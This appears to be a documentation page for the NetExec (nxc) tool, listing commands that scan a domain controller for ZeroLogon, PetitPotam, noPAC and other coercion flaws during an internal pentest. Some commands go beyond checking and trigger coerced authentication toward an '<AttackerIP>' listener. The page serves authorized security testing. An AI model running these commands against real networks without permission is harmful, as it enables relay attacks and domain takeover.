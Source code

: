 ```yaml
---
description: Check if a DC is vulnerable
---
```


# Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

### ZeroLogon

`nxc smb <ip> -u '' -p '' -M zerologon`

### PetitPotam

`nxc smb <ip> -u '' -p '' -M petitpotam`

### noPAC

`nxc smb <ip> -u 'user' -p 'pass' -M nopac`

{% hint style="warning" %}
You need a credential for this one
{% endhint %}

Or, try them all at once! Just list each one: `-M zerologon -M petitpotam`

# Scan for Coerce Vulnerabilities

You can check for coerce vulnerabilities such as Petitpotam, DFSCoerce, PrinterBug, MSEven, and ShadowCoerce using the coerce_plus module.

`nxc smb <ip> -u '' -p '' -M coerce_plus`

If a vulnerability is found, you can exploit it by using the same coerce_plus module

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>`

To run all exploit methods at once, add the ALWAYS=true option

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true`

You can also check for a specific coerce method by specifying it

`nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam`

{% hint style="success" %}
Instead of using the METHOD option, you can use its short form M. Similarly, the argument LISTENER can be shortened to L.

This also applies to the names of the vulnerabilities when specifying a method.

M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error

M=pr // Matches printerbug

M=pe // Matches petitpotam

M=dfs // Matches dfscoerce

{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`
